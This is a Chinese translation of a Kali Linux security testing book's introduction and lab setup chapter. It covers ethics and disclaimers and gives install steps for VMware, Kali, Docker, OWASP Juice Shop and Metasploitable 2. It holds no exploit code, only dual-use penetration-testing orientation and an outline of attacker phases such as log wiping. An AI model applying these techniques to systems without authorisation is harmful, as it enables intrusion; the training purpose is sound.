# Kali Linux 高级安全测试





“在每一个表面劣势中，都能发现某些优势。反之亦然：每一个表面优势中都蕴含着劣势的种子。阴并非全阴，阳并非全阳。中国古代军事哲学家孙子曾说，只有智将才能认识到这一事实并将其转化为优势。” —— 毛泽东《论游击》，美国海军陆战作战队 FMFRP 12-18

## 本书是什么

如果你是那种喜欢卷起袖子直接上手的人，那么这本书就是为你准备的。这本书简单来说是我之前系列书籍的实操型、“在做中学习”的延续。它将带你了解安全领域中使用的一些常用战术、技术和程序（TTPs）。我一直是一个典型的“在做中学习”的人。在 10 多年前当我开始安全领域之旅时，我开始写那些我当时希望它们存在的书。我会详细介绍许多技术，展示每一步操作，并配有大量的图片来帮助这一过程。

## 本书不是什么

本书不会教你成为一个顶尖的（uber l33t）黑客。这里没有任何黑客的“秘诀”。对于是否将此书命名为《高级安全测试》，我犹豫了很久。安全社区的水平跨度很大，而“高级”一词对许多人来说有许多不同的含义。这本书仅仅是我 `Kali Linux` 安全系列丛中的最后一部，它涵盖了以下技术：

1. 我在之前的书中未涵盖的内容。
2. 读者可能需要比我的基础书籍更高的技能水平才能理解的内容。

就此而已，这里没有黑魔法，也没有秘密的咒语。

你不会仅仅通过读这本书就成为渗透测试员（Pentester）。此外，不要读完这本书就认为你可以去开始在客户网络上进行实地安全测试。成为一名专业的渗透测试员、红队成员或安全测试员需要多年的多样化训练、技能和知识，这些都远超本书的内容范围。本书没有教你如何使用书中介绍的工具的各种方法，也没有教你如果你不当使用这些工具会导致情况变得多么糟糕。大多数情况下，我只展示了工具最基本的用法、如何让它们快速运行以及一些常见用途。在对现场系统进行尝试之前，务必完全理解你正在使用的工具和技术，以及如何撤销它们所做的任何更改。

本书并不侧重理论。如果你想要一本以讲座形式布局带你了解复杂安全主题、深入探讨安全理论的书，那么这本书不适合你。此外，你不会在这里找到所有的答案，没有办法涵盖每一个可用的工具和技术。安全社区的几乎每个人都有自己喜爱的测试流程和脚本，在 `GitHub` 上快速搜索 `#RedTeam` 或 `#Pentesting` 会返回海量的个人安全笔记。这里涵盖的是我了解、使用并喜欢的技术。

最后，本书是我的《基于 Kali Linux 的基础安全测试》系列的延续，并作为我之前的书籍《基于 Kali Linux 的中级安全测试》的替代/更新。本书假设你已经具备了 `Kali Linux` 的基础工作知识，并熟悉我的《基础安全书籍》中涵盖的安全主题。我之前的书中已经涵盖的话题（如 `Kali` 的基础安装和用法）在书中不再涵盖。

## 我需要什么样的实验环境？

这是另一个我花了大量时间决定如何处理的话题。我曾非常想为这本书使用许多云端学习实验室。也有许多我想使用的专业工具和业务。尽管最后，我放弃了这种想法。我之前的书籍被世界范围内的学校、大学、学院和培训中心使用。我一直被告知的一点是，某些国家买不起专业工具许可或在线访问培训实验室的学生对此深感感激。他们喜欢我之前书籍中的实验设置大部分是虚拟机（VMs），而且我大多只使用可用工具或 `Kali Linux` 自带的工具。因此，考虑到这一点，本书也遵循了这一做法，使用了大多数可以在单台当前电脑上运行的常用虚拟机。不过，在书末的一些章节涵盖了“物联网”类型的设备，如果你想跟进，就需要购买其他硬件，主要是关于 `Raspberry Pi` 的章节。

## 与中级 Kali 书相比有什么新内容？

如果你有《中级 Kali Linux》书，应该买这本吗？是的！虽然这本书包含了中级书中一些更新后的章节（教 `Metasploit` 的方法是有限的），但它本质上是一本完全不同的书。中级书中许多过时的章节被删除了，并增加了许多新章节。自中级书籍出版以来，工具和技术已经发生了巨大变化。所有章节已使用当前版本（出版时版本）的 `Kali Linux` 进行了更新。

## 如果出现问题我该怎么办？

我尽力确保书中的所有内容在出版时都是最新的，并且每一个步骤都能按照给出的说明执行。然而，撰写安全工具就像在描写一个移动的目标。软件更新不断改变 `Kali Linux` 及其包含工具的外观和工作方式。`Kali Linux` 的创建者在将数百种安全工具整合进一个 Linux 发行版方面做出了了的工作。因此，几乎不可能保证每个工具都 100% 正常，特别是在系统更新之后或安装了未包含在发行版工具工具。

这就是我包含这么多图片的原因之一——很多时候它只是菜单的更改或微小变化，只要你花时间研究就能弄明白。尽管有时某些工具（即使是主要工具）也会从根本上改变它们的安装方式和工作原理。这就是为什么我尽可能包含工具官方网站和文档 wiki。务始终检查工具 wiki 以获取最新的安装和使用说明。此外，检查工具支持论坛，看看你遇到的问题是否已经得到解决。如果还是没有运气，正如我们在支持领域一直说的那样，“Google 是你的朋友”。你遇到别人没有遇到的问题非常罕见。花时间 Google 你收到的错误信息通常会引导你走向正确的方向。最后，如果你觉得问题绝对与某个特定工具有关，你可以尝试在工具支持论坛上创建一个新的支持工单，但我在这方面的结果不不一，特别是当工具较旧时。

最后，始终保留你的 `Kali Virtual Machine` 的备份副本，以防安装第三方工具损坏了 `Kali`，或者你只是想从零开始。这样做最简单的方法是直接复制下载的虚拟机并将其命名为 `Kali Backup`。然后，如果你的 `Kali` 发生了你不喜欢的更改或变得不稳定，你始终可以使用备份副本。

## 为什么要使用 Kali Linux？

`Kali` 包含了 600 多种安全测试工具。它允许你使用与黑客类似的工具和技术来测试你的网络安全，这样你可以在真正的黑客发现它们之前发现并修正这些问题。黑客在攻击网络时通常执行一系列步骤。以下是其中步骤的总结：

- `Recon` – 使用多个源检查目标——例如情报收集
- `Scanning` – 映射并调查你的网络
- `Exploitation` – 攻击扫描过程中发现的漏洞
- `Elevation of Privileges` – 将低权限账户提升到 `Root` 或 `System Level`（系统级）
- `Maintaining Access` – 使用后门等技术保持对你网络的访问


> ➢ 掩盖踪迹 – 擦除日志并操纵文件以隐藏入侵

我们不会涵盖过程中的每一个步骤，但会向你展示许多用到的技术。道德黑客或渗透测试人员（受雇在攻击者之前寻找漏洞的“好人”）会模拟许多此类攻击者技术，使用公司管理层设定的参数和准则来发现安全问题。他们随后会将发现的结果报告给管理层，并协助纠正这些问题。

我认为使用 `Kali` 而不是商业安全解决方案的最大动力是价格。安全测试工具可能极其昂贵，而 `Kali` 是免费的！其次，`Kali` 包含了许多商业安全产品的开源版本，因此你理论上可以简单地通过 `Kali` 替代昂贵的程序。尽管 `Kali` 包含了几个热门软件的免费版本，这些版本可以升级为全功能的付费版本并并通过 `Kali` 直接使用。虽然 `Kali` 不可能包含每个人都偏好的所有安全工具，但它包含的内容足够让你从安全任务的开始到结束都使用它。不要忘记 `Kali` 不仅仅是一个安全工具，更是一个完整的 `Linux` 操作系统。所以，如果你喜欢的工具运行在 `Linux` 下但未包含其中，你很可以在 `Kali` 中安装并运行它。同样不要忘记，这些许多工具运行在不同的 `Linux` 版本上 - 许多安全专业人士倾向于“自制”自己喜欢的 `Linux` 发行版，只包含他们需要的工具。

## 不要放弃！

某些主题可能看起来令人困惑或难以理解，不要放弃！尝试读完本章的剩余部分，看看后面的信息是否有帮助。如果没有，就先把它放在一边，继续读这本书，稍后再来看这个主题。安全领域有很多主题是我在第一次、第二次或第三次尝试时并不理解。很多时候，我必须先去处理其他事情，学习更多知识，然后再回来再次尝试。通常在我增加了对安全领域的总体知识后，这些事情后来就变得合理了。还有有些教程就是没不起。我曾遇到过这种情况：某些我用过上百次的技术，却因为某种原因某一次没不起，所以我必须反复尝试几次才能成功。其他时候，我尝试新事物两次、三次、四次都没有成功，但第五次，它成功了！如果我在第四次就放弃了，我就永远不会获得成功。我想表达的是，很多时候，进攻安全是一门不精确的科学。`Kali Linux` 的前身 `Backtrack` 的原始口号是“努力尝试”（Try Harder）。我们刻意在尝试“破坏”东西，绕过安全机制，欺骗事物运行，而有时东西会阻止它。这就是为什么掌握执行单一任务的多种技巧是明智的，以防行不通。书中的许多章节是相互独立的，所以你不理解某个主题，可以安全地进入另一个主题。

## 道德黑客问题

在道德黑客中，安全测试人员基本上表现得像黑客。他使用黑客可能常用的工具和技术来测试目标网络的安全性。区别在于，渗透测试人员是由公司聘佣来测试其安全性的，并在完成后向领导团队展示他们是如何进入的，以及可以做什么来堵住漏洞。

使用这些技术最大的问题是伦理和法律。你可以使用 `Kali` 及其包含工具执行的某些安全测试技术在某些地区实际上是非法的。因此，读者在在使用 `Kali` 或书中的信息之前，检查、理解并遵循当地法律、州法律和联邦法律是非常重要的。此外，你可能有一些用户尝试在他们没有许可的网络上使用 `Kali`（这是一个非常强大的工具集）。或者他们会尝试在生产网络上使用他们学过但可能尚未掌握的技术。这些都是潜在的法律和伦理问题。

## 免责声明和使用条款

书中的信息仅供教育目的。请仅在安全的测试环境中练习这些技术。读者对尝试或使用书中的技术而导致的任何误用或损坏承担全部责任。永远不要尝试访问或安全测试你没有获得书面许可的网络或计算机。这样做可能会导致你面临法律诉讼，你最终可能会入监狱。

在实际环境中，你会遇到许多未涵盖的问题和技术，但这些并不是在书中涵盖的。本书仅演示了 `Kali` 中一些最基础的工具用法，不应被视为道德黑客或渗透测试的全方位手册。我没有创建 `Kali` 中的任何工具，我也不是 `Kali Linux` 或 Offensive Security 的代表。人非完人，正如俗话所说 - 任何语法或教程上的错误都不应反映在工具创造者身上。如果你遇到任何教程问题，请告诉我，以便进行纠正。

虽然没有点名，但感谢 `Kali` 开发人员创造了如此精彩的产品，并感谢个人工具的创造者，你们都在做着了不起的工作并帮助保护全球的系统！

## 你可以的！

希望你喜欢这本书，并祝你的职业生涯取得巨大成功！

# 第 2 章：实验室设置与安装虚拟机

在本章中，我们将简要介绍一种潜在的实验室设置。我使用了与之前所有书中相同的实验室设置类型 - 在主机系统上建立完整的虚拟实验室设置，需要时配备一些可选系统。正如引言提到的，我想让这种设置尽可能简单且廉价。使用虚拟机设置我们的测试实验室使得学习 `Kali` 安全测试变得容易。虚拟机使得在单台计算机上运行多个操作系统成为可能。这样我们不需要满房间的电脑来搭建测试环境。我们只需要一台足够运行多个虚拟机会话的机器。这样也不会有每月云访问费用影响某些学生访问或使用。如果你是老师，可以根据你认为合适的方式修改布局。

书中的所有实验都是使用配备 16GB 内存的`Windows10 专业版 Core i7-6700`系统作为虚拟机主机完成的。它有足够的功率毫无问题地运行所有实验室操作系统。在的情况下，我使用了所有软件的 64 位版本，特别是 `Kali Linux` (`Kali Linux 2021-4 64 bit`)。如果你有虚拟系统的经验，可以使用任何你喜欢的虚拟机软件。但本书中我将使用 `VMware Player` 作为大多数虚拟机的主机软件。我确实使用 `VirtualBox` 来运行一个虚拟机 (`Linux Metasploitable3`)，因为它是自动配置为该平台的。只要 `VMware` 和 `VirtualBox` 设置在相同的子网，它们就可以顺利通信。当我们完成后，应该会有一个像这样的小型测试网络：



**警告** - 由于我们将处理存在漏洞的操作系统，请确保在主机系统和实时互联网之间有一个防火墙路由器（最好是硬件）。永远不要将运行漏洞软件的系统直接连接到业务网络或接入实时互联网的网络。确保你的实验室不受外部攻击是读者的责任。


这是一个刻意设计的非常简单的实验布局。再次强调，我想为那些负担不起在线云服务的学生尽可能保持成本效益。你可以采用这个基础设计，并根据你的环境使其变得任意复杂。如果你想学习许多关于设置多种不同类型的虚拟实验室，我强烈推荐 Tony Robinson 编写的书籍《构建虚拟机实验室 - 实战指南》（Building Virtual Machine Labs - A Hands-On Guide）。

我在本书中仍然在使用 `Metasploitable 2`。我知道它已经过时了，但它仍然是一个非常棒的学习工具，非常适合用于观察一些基础技术。我们将使用 Linux 版本的 `Metasploitable 3` —— 它提供了一个夺旗夺赛（CTF）类型的环境，而且非常有趣！我选择不使用 `Metasploitable 3` 的 Windows 版本，如果所有先决条件没有配置完美，安装起来可能会非常困难。相反，我们将构建自己的漏洞 Windows 服务器！我们将使用由 `@davidprowe` (Secframe.com) 提供的准备工具 `Bad Blood` 创建一个漏洞的 Windows 服务器（2016 或 2019）。`Bad Blood` 会快速创建成千上万具有安全问题的活动目录 对象（Active Directory Object）。上面的图片未显示，我们还将使用一些 `Docker` 镜像以及一个更新频繁的漏洞 Web 应用 Mutillidae II。

我总是说，最好的学习方法就是直接上手，让我们开始吧！

## 安装 VMware Player & Kali Linux

首先，我们将安装 VWare player 和 Kali Linux。在 VMware 上安装 Kali 非常简单，因为 `Kali.org` 提供了一个可以下载的 VMware 镜像，所以我们不会在此上花费大量时间。请查看 VMware Player 网站以获取最新的安装说明。

> 1. 下载并安装适用于你的操作系统版本的 VMware Player。

VMWare Player 的版本甚至下载位置似乎经常变化。在编写本文时，VMWare Player 的当前版本是“VMWare Workstation 16 Player”，它可以作为非商业用途的免费播放器运行，也可以通过许可运行。（https://customerconnect.vmware.com/en/downloads/info/slug/desktop_end_user_computing/vmware_workstation_player/16_0）



> 2. 选择你想安装它的位置，通常默认值即可。

> 3. 按照安装提示操作，在要求时重启。

> 4. 启动 VMWare 并输入你的电子邮件地址（免费版本）或购买并输入许可密钥用于商业用途。

> 5. 完成后点击“继续”，然后点击“完成”。

> 6. 从 Kali.org 下载 Kali Linux 64 位 VMware 镜像：



始终验证下载文件的校验和（checksum）是一个好习惯，用以确保文件是正确的且没有被修改或损坏。你可以使用 `certUtil` 命令执行此操作。

> 7. 从命令提示符输入 `certUtil -hashfile [kali linux 下载文件] SHA256`

然后只需与下载的文件比对校验和即可。

> 8. 接下来，将文件解压到你想运行它的位置（我使用了“Advanced Kali VMs”）。

> 9. 启动 VMware Player。

> 10. 点击菜单中的“Player”。

> 11. 然后点击“File”。

> 12. 接下来点击“Open”。

> 13. 导航到解压出的 Kali Linux `.vmx` 文件，选择它并点击“Open”。

> 14. 它现在会显示在 VMware Player 的主界面上。

> 15. 选中 Kali 虚拟机，点击“Edit Virtual Machine Settings”。

> 在此处查看并更改虚拟机的任何设置：



> 16. 点击“Network Adapter”（网络适配器）：

它默认设置为 NAT（网络地址转换）。NAT 意味着每个虚拟机将在它们之间以及主机共享的小型 NAT 网络中创建；如果需要，它们也可以访问互联网。有些人报告过使用 NAT 会遇到问题，只能使用桥接模式（Bridged），因此我在本书中对所有虚拟机都使用了桥接模式。如果你确实使用桥接模式，请确保你的系统和互联网之间有一个硬件防火墙。

> 17. 点击“OK”返回 VMWare Player 主界面。

> 18. 现在只需点击“Play Virtual Machine”启动 Kali。你可能会收到一条消息询问虚拟机是否被移动或复制，只需点击“I copied it”。

> 19. 当提示安装 VMware tools 时，选择稍后安装。

> 20. 当 Kali 启动时，你将进入登录界面。

> 21. 使用用户名“kali”和密码“kali”登录。

> 22. 你将看到主桌面：



我们现在已经安装了 Kali 虚拟机。

## Kali Linux - 设置 IP 地址

我在本书中所有的 IP 地址都使用 DHCP。在现实生活中，我有许多运行 Kali 的系统和 IoT 设备，而且你很可能也是如此。我假设，由于这是一本高级书籍，读者能够检查设备正在使用哪种 IP 地址。这就是为什么我在本书中并不那么担心使用静态地址（而我在较早的书籍中是那样做的）。顺便提一下，我在我的 Kali NetHunter 手机上经常使用“cSploit”来快速检测 IP 地址，它的效果非常好。如果你需要为 Kali 设置 IP 地址，可以通过桌面菜单进行。

1. 右键点击右上角扬声器旁以太网图标。


2. 点击“Edit Connections”（编辑连接）将其展开。

3. 然后点击“Wired Connection 1”（有线连接 1）。

4. 点击齿轮图标。

5. 在“Wired - Connected”（有线 - 已连接）下点击设置图标。

6. 然后你可以更改任何你需要的网络设置。



重启系统。当系统启动后，打开一个终端窗口（点击快速启动菜单上的终端按钮）并运行 `ifconfig` 以确保 IP 地址已成功更改。就这样；Kali 现在应该已经安装并准备就绪了。

## Kali Linux - 更新

Kali Linux 不断更新以包含最新的工具和功能。如果你有一段时间没有使用 Kali 了，你现在默认将是一个普通用户，需要切换到超级用户终端，或使用 `sudo` 运行需要 root 权限的命令。

要更新 Kali Linux，打开终端提示符并输入：

```
> ➢ sudo apt update
> ➢ sudo apt upgrade
```



更新可能需要一段时间，并可能提示你进行输入 - 如果你不确定如何回答问题，直接使用默认响应即可。

> ➢ 更新完成后重启。

现在 Kali 已经更新完毕，让我们为它添加一个漏洞 Web 应用。

## OWASP Juice Shop - 在 Kali 上安装

工具网站：[`owasp.org/www-project-juice-shop/`](https://owasp.org/www-project-juice-shop/)

OWASP Juice shop 是一个用于测试和学习的现代漏洞 Web 应用。`Docker` 版本在我们的 Kali Linux 安装上运行良好。安装 Juice Shop 是分两个步骤：安装 `Docker` 然后安装 Juice Shop 的 `Docker` 版本。

### 安装 Docker

打开终端提示符并输入以下命令：

```
> ➢ sudo apt update
> ➢ sudo apt install -y docker.io
> ➢ systemctl enable --now
> ➢ docker
```

### OWASP Juice Shop - 安装与运行

```
> ➢ service docker start
> ➢ sudo docker pull bkimminich/juice-shop
> ➢ sudo docker run --rm -p 3000:3000 bkimminich/juice-shop
```



现在访问 localhost:3000



搞定！它现在可以使用了。让我们继续设置更多的虚拟机。

## 安装 Metasploitable 2

Metasploitable 2 是我们将练习利用的故意漏洞 Linux 操作系统，它以 VMWare 虚拟机的形式提供。与上面的 Kali 虚拟机一样，我们只需要下载 Metasploitable 2 虚拟机镜像，解压并用 VMware Player 打开它。

> 1. 下载 Metasploitable 2 ([`sourceforge.net/projects/metasploitable/files/Metasploitable2/`](http://sourceforge.net/projects/metasploitable/files/Metasploitable2/))

> 2. 解压文件并放置在你选择的文件夹中（我使用了高级虚拟机文件夹）。

然后通过启动另一个 VMWare Player 在 VMware 中打开 Metasploitable 2。

```
> ➢ 然后点击“Player”，“File”，“Open”
```


> ➢ 导航到 `Metasploitable.vmx` 文件，选中它并点击“打开”

它现在会出现在 VMware Player 菜单中。

> 3. 现在进入 Metasploitable 的“编辑虚拟机设置”，并确保网络接口设置为“桥接”（Bridged）（或者如果你有偏好，也可以设置为 NAT，只需确保所有虚拟机的设置相同即可）。

